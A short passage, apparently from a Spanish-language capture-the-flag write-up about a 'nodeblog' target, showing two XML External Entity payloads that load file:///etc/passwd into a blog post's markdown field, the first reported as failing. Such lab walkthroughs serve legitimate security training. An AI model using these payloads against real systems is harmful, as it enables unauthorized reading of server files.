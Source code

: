 quedaría  así 

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>

<title>test</title>

<description>this is a test</description>

<markdown>&file;</markdown>

</post>
```

vemos que no funciona así que probaremos otro

![[20250723113939.png]](nodeblog-images/20250723113939.png)

este quedaría así 

```xml                                                           
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<post>

<title>test</title>

<description>this is a test</description>

<markdown>&xxe;</markdown>

</post>
```

